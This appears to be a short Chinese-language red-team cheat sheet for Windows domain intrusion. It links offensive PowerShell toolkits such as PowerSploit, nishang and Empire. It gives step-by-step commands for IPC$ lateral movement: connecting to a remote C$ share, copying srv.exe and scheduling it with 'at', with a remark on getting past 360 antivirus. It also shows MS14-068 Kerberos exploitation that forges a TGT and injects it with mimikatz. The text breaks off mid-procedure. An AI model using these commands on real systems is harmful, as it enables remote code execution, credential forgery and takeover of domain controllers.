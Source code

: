 > https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

### windows log

微软第三方信息收集工具 LogParser.exe psloglist.exe 等

### powerhsell 神器

nishang

> https://github.com/samratashok/nishang

spn扫描

> https://github.com/nullbind/Powershellery/tree/master/Stable-ish

PowerSploit

> https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

针对ps的Empire

> https://github.com/EmpireProject/Empire

### ipc$

> D:>net use \\\192.168.1.254\c$ "pwd" /user:user   //连接192.168.1.254的IPC$共享，用unc路径
>
> D:>copy srv.exe \\\192.168.1.254\c$ //复制本地 srv.exe 到C根目录
>
> D:>net time \\\192.168.1.254     //查时间
>
> D:>at　\\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动 srv.exe (这里360会拦截)
>
> D:>net use \\\192.168.1.254\c$ /del 

### ms14-068 Kerberos 漏洞利用：

生成 TGT：用于伪造

> whoami /all  获得：用户@ 域名、用户 sid、域主机

> python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
>
> ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com

会生成 TGT_admin@xxx.com.ccache

注入 TGT：

> klist
>
> klist purge 清除所有凭证，等一会在执行下列命令

写入内存:

> mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache" 

若成功
